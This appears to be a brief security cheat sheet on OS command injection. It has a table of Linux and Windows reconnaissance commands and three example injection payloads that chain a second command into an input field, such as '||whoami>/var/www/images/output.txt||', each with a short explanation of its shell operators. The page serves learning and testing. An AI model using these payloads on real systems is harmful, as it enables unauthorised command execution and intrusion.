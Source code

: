 ```yaml
---
icon: rectangle-terminal
---
```


# OS Command Injection

<table><thead><tr><th width="193">Purpose of command</th><th>Linux</th><th>Windows</th></tr></thead><tbody><tr><td>Name of current user</td><td><code>whoami</code></td><td><code>whoami</code></td></tr><tr><td>Operating system</td><td><code>uname -a</code></td><td><code>ver</code></td></tr><tr><td>Network configuration</td><td><code>ifconfig</code></td><td><code>ipconfig /all</code></td></tr><tr><td>Network connections</td><td><code>netstat -an</code></td><td><code>netstat -an</code></td></tr><tr><td>Running processes</td><td><code>ps -ef</code></td><td><code>tasklist</code></td></tr></tbody></table>

* `||whoami>/var/www/images/output.txt||`
  * `||` operator is used in shell scripting to perform **logical OR**.
  * `>` redirect output to specified file
* `& echo aiwefwlguh &`
  * `&` character is a shell command separator.
  * `echo` command causes the supplied string to be echoed in the output.
* `& ping -c 10 127.0.0.1 &`

